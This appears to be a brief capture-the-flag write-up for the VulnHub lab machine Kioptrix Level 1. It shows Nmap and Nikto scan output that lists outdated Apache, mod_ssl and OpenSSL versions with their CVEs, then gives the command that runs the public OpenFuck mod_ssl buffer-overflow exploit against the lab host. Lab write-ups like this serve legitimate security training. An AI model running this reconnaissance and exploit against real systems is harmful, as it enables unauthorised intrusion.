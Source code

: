 # Kioptrix Level 1

[link](https://www.vulnhub.com/series/kioptrix,8/)

## Recon

Starting Nmap 7.60 ( https://nmap.org ) at 2017-11-24 10:43 EST
Nmap scan report for 172.16.8.1
Host is up (0.00031s latency).
All 1000 scanned ports on 172.16.8.1 are closed
MAC Address: 00:50:56:C0:00:01 (VMware)

Nmap scan report for 172.16.8.133
Host is up (0.0014s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
443/tcp  open  https
1024/tcp open  kdm
MAC Address: 00:0C:29:D5:E2:8D (VMware)

Nmap scan report for 172.16.8.254
Host is up (-0.20s latency).
All 1000 scanned ports on 172.16.8.254 are filtered
MAC Address: 00:50:56:E9:32:62 (VMware)

Nmap scan report for 172.16.8.129
Host is up (0.000011s latency).
All 1000 scanned ports on 172.16.8.129 are closed

Nmap done: 256 IP addresses (4 hosts up) scanned in 76.59 seconds

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          172.16.8.133
+ Target Hostname:    172.16.8.133
+ Target Port:        80
+ Start Time:         2017-11-24 10:46:31 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+ Server leaks inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep  5 23:12:46 2001
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
+ OpenSSL/0.9.6b appears to be outdated (current is at least 1.0.1j). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
+ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
+ ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
+ OSVDB-3268: /manual/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ 8345 requests: 0 error(s) and 21 item(s) reported on remote host
+ End Time:           2017-11-24 10:46:51 (GMT-5) (20 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

## Attack

Exploiting mod_ssl with remote buffer overflow

[link](https://www.exploit-db.com/exploits/764/)

./OpenFuck 0x6b 172.16.8.133 443 -c 100

